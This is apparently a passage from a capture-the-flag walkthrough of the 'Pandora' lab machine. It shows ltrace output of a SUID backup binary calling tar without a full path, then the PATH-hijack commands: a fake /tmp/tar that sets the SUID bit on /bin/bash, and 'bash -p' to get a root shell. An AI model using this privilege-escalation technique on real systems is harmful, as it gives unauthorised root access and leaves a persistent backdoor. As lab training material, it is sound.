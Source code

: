 ```
matt@pandora:~$ ltrace pandora_backup
getuid()                                                                                                                                            = 1000
geteuid()                                                                                                                                           = 1000
setreuid(1000, 1000)                                                                                                                                = 0
puts("PandoraFMS Backup Utility"PandoraFMS Backup Utility
)                                                                                                                   = 26
puts("Now attempting to backup Pandora"...Now attempting to backup PandoraFMS client
)                                                                                                         = 43
system("tar -cvf /root/.backup/pandora-b"...tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
tar: Error is not recoverable: exiting now
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                              = 512
puts("Backup failed!\nCheck your permis"...Backup failed!
Check your permissions!
)                                                                                                        = 39
+++ exited (status 1) ++
```

First we create our new "tar", which gives bash the suid bit, in the `/tmp` directory, make it executable and export the new path.

```
matt@pandora:~$ echo -ne '#!/bin/bash\n\nchmod +s /bin/bash' > /tmp/tar
matt@pandora:~$ chmod +x /tmp/tar
matt@pandora:~$ export PATH=/tmp:$PATH
```

Now we can run `pandora_backup` which executes our tar script as root.

```
matt@pandora:~$ pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
Backup successful!
Terminating program
```

Bash has now the suid bit set and we are able to simply drop into a root shell and add the flag to our collection.

```
Terminating program!
matt@pandora:~$ bash -p
bash-5.0# wc -c /root/root.txt
33 /root/root.txt
```